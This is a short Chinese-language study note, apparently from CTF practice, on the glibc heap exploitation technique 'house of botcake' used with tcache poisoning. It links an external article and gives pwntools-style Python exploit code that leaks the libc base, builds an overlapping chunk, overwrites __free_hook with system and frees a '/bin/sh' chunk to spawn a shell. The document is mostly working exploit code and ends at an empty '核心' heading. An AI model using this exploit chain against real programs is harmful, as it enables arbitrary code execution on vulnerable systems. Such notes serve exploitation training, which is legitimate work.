 house of botcake
================

[可以看看这篇文章](https://xz.aliyun.com/t/12653?time__1311=mqmhDvqIxAxfxeqGNDQbYBK3FxhQjwxvxx&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-1)  
**house of botcake一般都会配合tcache poison一起打**

**打tcache poison时如果限制了malloc的chunk的大小,可以多次分割unsorted bin进行覆写**

**一定要有uaf,只要chunklist不被清空就可以，有mark影响不大**

```python
add(14,0x70,'a')
payload=p64(0)+p64(0x91)+p64(__free_hook)
add(11,0x20,payload)
```

代码
--

```python
for i in range(7):
    add(i,0x80,'a')

#主要用7，8进行操作
add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)

#此时会进行unlink 8，让7，8一起进入unsorted bin
delete(7)
#给8腾出一个位置，不然会触发double free or corruption (!prev)
add(10,0x80,'a')
#8既在unsorted bin中，又在tcache中
delete(8) 
#打tcache poison
payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)

add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
```

核心
--
